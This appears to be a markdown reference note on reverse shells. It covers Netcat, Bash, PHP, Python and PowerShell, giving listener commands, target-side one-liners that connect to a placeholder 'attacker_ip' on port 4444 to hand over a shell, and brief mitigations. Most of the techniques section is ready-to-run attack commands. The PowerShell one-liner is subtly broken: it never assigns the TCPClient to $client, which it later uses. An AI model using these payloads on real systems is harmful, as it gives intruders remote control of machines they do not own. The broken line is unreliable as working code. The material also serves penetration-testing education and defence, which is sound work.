 ## Overview
A reverse shell is a type of shell in which the target machine connects back to the attacker's machine, providing the attacker with remote control over the target. Reverse shells are commonly used in hacking and penetration testing to bypass firewalls and NAT, allowing attackers to execute commands on a compromised system.

## Features
- **Outbound Connection:** The target initiates the connection to the attacker's machine, making it more likely to bypass firewalls.
- **Remote Command Execution:** Provides remote access to the target machine's shell, allowing for command execution.
- **Stealth:** Outbound connections are less likely to be blocked or monitored compared to inbound connections.
- **Flexible:** Can be written in various programming languages and utilized across different operating systems.

## Website
- [Reverse Shell Cheat Sheet by Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Common Reverse Shell Techniques

### 1. **Netcat Reverse Shell**
   - **Description:** Uses Netcat, a simple networking utility, to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
     nc -lvnp 4444
     ```
     - **Target Machine (Linux):**
     ```sh
     nc -e /bin/bash attacker_ip 4444
     ```
     - **Target Machine (Windows):**
     ```sh
     nc.exe -e cmd.exe attacker_ip 4444
     ```
   - **Mitigation:** Monitor for unauthorized outbound connections and block unneeded ports with a firewall.

### 2. **Bash Reverse Shell**
   - **Description:** Uses bash, a common Unix shell, to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
     nc -lvnp 4444
     ```
     - **Target Machine:**
     ```sh
     bash -i >& /dev/tcp/attacker_ip/4444 0>&1
     ```
   - **Mitigation:** Restrict the execution of bash scripts and monitor for abnormal outbound traffic.

### 3. **PHP Reverse Shell**
   - **Description:** Utilizes PHP code to initiate a reverse shell, often used in web application attacks.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
     nc -lvnp 4444
     ```
     - **Target Machine (Inject PHP Code):**
     ```php
     <?php system("nc -e /bin/bash attacker_ip 4444"); ?>
     ```
   - **Mitigation:** Disable dangerous PHP functions like `system()`, `exec()`, and `shell_exec()`, and use web application firewalls (WAFs).

### 4. **Python Reverse Shell**
   - **Description:** Leverages Python's `socket` and `subprocess` libraries to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
nc -lvnp 4444
     ```
     - **Target Machine:**
     ```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("attacker_ip",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/bash","-i"]);'
     ```
   - **Mitigation:** Limit Python execution capabilities and monitor for suspicious outbound connections.

### 5. **PowerShell Reverse Shell**
   - **Description:** Uses PowerShell, a powerful scripting language on Windows, to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
nc -lvnp 4444
     ```
     - **Target Machine:**
     ```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacker_ip",4444);$stream = $client.GetStream();[byte[]]$buffer = 0..65535|%{0};while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
     ```
   - **Mitigation:** Restrict PowerShell execution policies, use AppLocker or Windows Defender Application Control (WDAC), and monitor for unusual PowerShell activity.

## Tools for Reverse Shells

- **[[Netcat]]:** A versatile networking utility often used for reverse shells.
- **[[Metasploit]]:** Includes modules for creating and handling reverse shells in various languages.
- **[[Ncat]]:** An enhanced version of Netcat that supports encryption and IPv6.
- **[[Socat]]:** A more powerful alternative to Netcat, supporting SSL and many other protocols.
- **[[PowerShell Empire]]:** A post-exploitation framework that uses PowerShell for reverse shells and other attacks.

## Best Practices
- **Use Firewalls:** Implement strict outbound filtering to prevent unauthorized reverse shell connections.
- **Monitor Network Traffic:** Use intrusion detection systems (IDS) and intrusion prevention systems (IPS) to detect reverse shell traffic patterns.
- **Harden Endpoints:** Disable unnecessary scripting languages and tools like PowerShell and Python on sensitive systems.
- **Educate Users:** Train users to recognize suspicious activities that could lead to reverse shell attacks, such as phishing emails and malicious downloads.
- **Keep Systems Updated:** Regularly update software and operating systems to mitigate vulnerabilities that could be exploited for reverse shells.

## References
- [Reverse Shell Cheat Sheet by Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Metasploit Unleashed - Reverse Shells](https://www.offensive-security.com/metasploit-unleashed/reverse-shell/)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

